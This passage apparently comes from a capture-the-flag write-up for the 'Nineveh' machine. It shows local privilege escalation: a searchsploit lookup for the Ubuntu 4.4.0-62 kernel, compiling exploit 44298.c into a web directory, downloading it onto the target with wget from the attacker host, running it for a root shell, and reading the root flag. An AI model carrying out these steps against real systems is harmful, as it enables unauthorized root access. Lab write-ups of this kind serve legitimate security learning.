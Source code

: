 ```console
root@kali:~# searchsploit ubuntu 4.4.0-62
------------------------------------------------ ---------------------------------
 Exploit Title                                  |  Path
------------------------------------------------ ---------------------------------
Linux Kernel 4.10.5 / < 4.14.3 (Ubuntu) - DCCP  | linux/dos/43234.c
Linux Kernel < 4.13.9 (Ubuntu 16.04 / Fedora 27 | linux/local/45010.c
Linux Kernel < 4.4.0-116 (Ubuntu 16.04.4) - Loc | linux/local/44298.c
Linux Kernel < 4.4.0-83 / < 4.8.0-58 (Ubuntu 14 | linux/local/43418.c
Linux Kernel < 4.4.0/ < 4.8.0 (Ubuntu 14.04/16. | linux/local/47169.c
Ubuntu < 15.10 - PT Chown Arbitrary PTs Access  | linux/local/41760.txt
------------------------------------------------ ---------------------------------
```

I did a copy of the exploit to my current directory and then I compiled it.

```console
root@kali:~# searchsploit -m linux/local/44298.c
root@kali:~# gcc 44298.c -o /var/www/html/r00t
```

On the target machine I downloaded it, granted execution permissions and executed it, it gave me a root shell.

```console
amrois@nineveh:~$ wget 192.168.0.140/r00t
amrois@nineveh:~$ chmod +x r00t && ./r00t
task_struct = ffff88003549b800
uidptr = ffff88003d0b3184
spawning root shell
root@nineveh:~#
```

Finally was possible to read the root flag.

```console
root@nineveh:~# cat root.txt
8a2b4956612b485720694fb45849ec3a
```
